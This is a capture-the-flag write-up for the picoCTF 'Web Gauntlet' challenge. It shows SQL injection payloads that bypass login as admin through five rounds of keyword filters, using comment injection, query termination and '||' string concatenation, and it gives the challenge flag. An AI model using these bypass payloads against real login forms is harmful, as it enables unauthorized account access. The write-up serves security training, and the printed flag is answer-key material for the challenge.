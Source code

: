 # Web Gauntlet

- [Description](#description)
- [Approach](#approach)
- [Flag](#flag)

## Description

Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:54319/ http://jupiter.challenges.picoctf.org:54319/filter.php

## Approach

This challenge appears to be on SQL injection to login as `admin` across 5 rounds. Each round has a different filter, which are keywords we need to avoid.

### Round 1

Filter: `or`

Username: `admin' --` <br>
Password: `test`

SQL query:
```sql
SELECT * FROM users WHERE username='admin' --' AND password='test'
```

This comments out the verification of the password, hence no password is needed to log in as `admin`.

### Round 2

Filter: `or`, `and`, `like`, `=`, `--`

Username: `admin';` <br>
Password: `test`

SQL query:
```sql
SELECT * FROM users WHERE username='admin';'AND password='test'
```

Using `;`, it will end the query after `SELECT * FROM users WHERE username='admin'` so the password will not be verified.

### Round 3

Filter: `or`, `and`, `=`, `like`, `>`, `<`, `--`

Username: `admin';` <br>
Password: `test`

SQL query:
```sql
SELECT * FROM users WHERE username='admin';'AND password='test'
```

Using `;`, it will end the query after `SELECT * FROM users WHERE username='admin'` so the password will not be verified.

### Round 4

Filter: `or`, `and`, `=`, `like`, `>`, `<`, `--`, `admin`

Username: `ad'||'min';` <br>
Password: `test`

SQL query:
```sql
SELECT * FROM users WHERE username='ad'||'min';'AND password='test'
```

`||` can be used as a concatenation operator in SQL, so `'ad'||'min'` will be read as `'admin'`.

### Round 5

Filter: `or`, `and`, `=`, `like`, `>`, `<`, `--`, `union`, `admin`

Username: `ad'||'min';` <br>
Password: `test`

SQL query:
```sql
SELECT * FROM users WHERE username='ad'||'min';'AND password='test'
```

## Flag

`picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}`